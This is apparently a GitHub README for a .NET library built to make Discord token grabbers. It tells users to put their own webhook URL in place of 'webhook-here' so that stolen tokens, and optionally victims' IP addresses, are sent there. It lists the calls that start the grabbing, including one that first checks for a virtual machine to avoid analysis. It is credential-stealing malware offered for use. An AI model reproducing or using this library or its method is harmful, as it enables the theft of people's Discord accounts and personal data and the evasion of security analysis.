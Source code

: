 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.Start();```
#### To grab tokens + IP address
```Furious.Grabber.Start(true);```
#### To check for a VM before attempting to grab anything
```Furious.Grabber.Start(grabIP: true, checkForVM: true);```


# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
